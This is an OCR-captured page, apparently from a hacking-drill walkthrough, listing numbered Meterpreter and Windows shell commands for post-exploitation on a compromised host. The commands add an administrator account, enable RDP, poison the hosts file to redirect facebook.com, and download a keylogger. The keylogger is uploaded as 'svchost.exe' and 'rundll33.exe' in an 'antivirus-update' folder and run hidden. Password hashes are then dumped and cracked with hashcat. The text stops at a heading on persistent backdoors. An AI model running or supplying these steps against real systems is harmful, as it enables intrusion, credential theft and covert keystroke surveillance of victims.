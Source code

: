 ### Post-Exploitation: User Creation and RDP Access

```bash
# 7. Create a new administrative user
meterpreter> shell
C:\Windows\system32> net user /add Hackdrill2021 nacsdrill@
C:\Windows\system32> net localgroup administrators Hackdrill2021 /add

# 8. Enable Remote Desktop
C:\Windows\system32> REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

# 9. Enable RDP through Metasploit module
meterpreter> run getgui -e
```
### Post-Exploitation: Network Manipulation

```bash
# 10. Modify hosts file to redirect traffic
meterpreter> shell
C:\Windows\system32> echo 10.10.10.50 facebook.com >> %WINDIR%\System32\Drivers\Etc\Hosts
```
### Post-Exploitation: Keylogger Installation

```bash
# 11. Download and install keylogger
┌──(kali㉿kali)-[~/Desktop]
└─$ wget https://github.com/ajayrandhawa/Keylogger/blob/master/keylogger.rar

# 12. Extract and prepare keylogger files
# Upload keylogger to victim
meterpreter> mkdir antivirus-update
meterpreter> cd antivirus-update
meterpreter> upload keylogger/rundll33.exe
meterpreter> upload keylogger/svchost.exe

# 13. Execute keylogger with hidden windows
meterpreter> execute -f svchost.exe -i -H
meterpreter> execute -f rundll33.exe -i -H
```
### Post-Exploitation: Credential Harvesting

```bash
# 14. Dump password hashes
meterpreter> run post/windows/gather/hashdump

# 15. Crack password hashes offline
┌──(kali㉿kali)-[~/Desktop]
└─$ hashcat -m 1000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
### Post-Exploitation: Persistent Backdoor with Scheduled Tasks

